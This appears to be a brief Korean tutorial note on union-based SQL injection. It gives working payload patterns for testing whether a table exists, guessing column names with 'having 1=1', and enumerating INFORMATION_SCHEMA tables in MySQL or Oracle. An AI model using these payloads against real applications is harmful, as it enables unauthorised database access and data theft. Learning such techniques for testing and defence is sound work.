


1. 테이블명 유추
기본 패턴: 'union select * from [확인하고자 할 테이블명] --
DB가 Oracle이냐 MySQL이냐에 따라서 뒤의 주석구문등을 변경해서 사용가능하다.
존재하지 않는 테이블일 경우 다음과 같은 결과가 출력된다.

존재하는 테이블일 경우 다음과 같이 출력.

2. 칼럼명 유추
기본 패턴 : ' union select * from member a having 1=1 #
응용 패턴 : ') union select a.*,0 from member a having 1=1 #
') union SELECT 1000, table_Schema, table_name, sysdate(), 0, 'Y' FROM INFORMATION_SCHEMA.TABLES #